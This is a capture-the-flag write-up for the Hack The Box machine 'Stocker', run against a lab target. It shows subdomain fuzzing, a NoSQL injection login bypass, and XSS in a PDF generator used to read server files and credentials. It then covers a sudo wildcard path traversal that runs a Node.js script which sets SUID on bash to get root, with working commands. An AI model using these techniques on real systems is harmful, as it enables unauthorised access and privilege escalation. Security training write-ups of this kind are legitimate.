
# Summary
[Stocker](https://app.hackthebox.com/machines/Stocker) starts off with fuzzing for subdomains to find a login page vulnerable to NoSQL injection. After bypassing login I am taken an in-development storefront. The purchase receipts are generated by converting json into a pdf, and the process is vulnerable to Cross Site Scripting. I then use the XSS to leak a cleartext password that was reused for SSH. Once on the box, a misconfiguration in the `sudo` rules allows me to write a malicious javascript file to gain root access. 
# Nmap
First things first I start off with an `nmap` scan. I use `-sC` to run the default scripts, and `-sV` to enumerate versions.
```
┌──(kali㉿Kali)──[13:22:19]──[~/htb/Machines/Stocker]
└─$ sudo nmap -sC -sV -p 22,80 $IP                 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-generator: Eleventy v2.0.0
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This reveals only 2 ports open, SSH on port 22, and HTTP running `nginx` on port 80.
## HTTP > NoSQL Injection
Poking around on the main `stocker.htb` doesn't reveal much. I decide to do some fuzzing to discover any other subdomains. This reveals the `dev` subdomain. I add this to my `/etc/hosts` file and browse to it, and find a log in page.
```bash
┌──(kali㉿Kali)──[13:27:24]──[~/htb/Machines/Stocker]
└─$ ffuf -u http://stocker.htb -H 'Host: FUZZ.stocker.htb' -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -fs 178

        /'___\  /'___\           /''_\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 99ms]
:: Progress: [19966/19966] :: Job [1/1] :: 422 req/sec :: Duration: [0:00:53] :: Errors: 0 ::
```



 I pass the log in request to repeater in Burpsuite. I try some common credentials, and basic SQL injection, none of which work. I decide to see if I can do some funny business by changing the POST data type to JSON. This works and it seems like the login is still accepted and processed. Next I try NoSQL injection, which gets me in. The way this NoSQL injection works is that I'm using the "not equal" ($ne) operator to tell the server that if the username is *not equal* to to "fakeuser" and the password is *not equal* to "fakepass", then let me in. Obviously, there is no user in the database with those credentials, and I get access.



I'm taken to what looks to be an in-development storefront.


## XSS & File Read
Once logged in to the site I can add items to my cart and then check out. Upon check out a pdf receipt is created. 



Intercepting this in Burp reveals a POST request with a json body containing info about the purchase. This info is evidently then used to create said PDF.



After doing some testing on the various parameters, I discover that the `title` field is vulnerable to XSS injection. 



This can be used to read files and to access external networks. 



The root of the webapp can be found by either sending bad `json` or by using `<script>document.write(JSON.stringify(window.location))</script>`.

Bad JSON:


I know the root directory, and that the site is running `Node.js`, meaning likely the `index` file will be written in `javascipt`. I try to read `/var/www/dev/index.js`, however, the space allocated to loading this file only reveals the first few lines. I need a way to see the whole file.



I can circumvent this problem by loading the file in an iframe. Iframe essentially loads another site or file within the current site or file. I can change the size of the `iframe` window with `height=<x> width=<y>`. Making the `iframe` window bigger, I again load `index.js` which reveals creds to `MongoDB` in cleartext. 



I get a valid username from `/etc/passwd` and use this password for SSH and I get in!
## Root Shell
`Angoose` can run `/usr/bin/node /usr/local/scripts/*.js` as sudo. The `/usr/local/scripts` directory is not writeable. However, the wild card means I can put anything there and the sudo will be valid. This means I can do some directory traversal! 

All I have to do is write a javascript somewhere on the system, for example `/dev/shm/exploit.js` and then traverse directories to get there. I just had to find out how to use system commands in java cript. I found this article that explained it perfectly and even had a working script on it. https://stackabuse.com/executing-shell-commands-with-node-js/

I just changed the command in the script to make `/usr/bin/bash` an SUID binary, ran the sudo line, and then `/usr/bin/bash -p`. I write the malicious javascript into `/dev/shm`.
```javascript
const { exec } = require("child_process");

exec("chmod +s /usr/bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```
I then execute the scrript with sudo, run the now SUID bash binary, and become root!
```bash
sudo /usr/bin/node /usr/local/scripts/../../../dev/shm/exploit.js # Execute malicious javascript
ls -la /usr/bin/bash -p # Make sure it worked
/usr/bin/bash -p # Become Root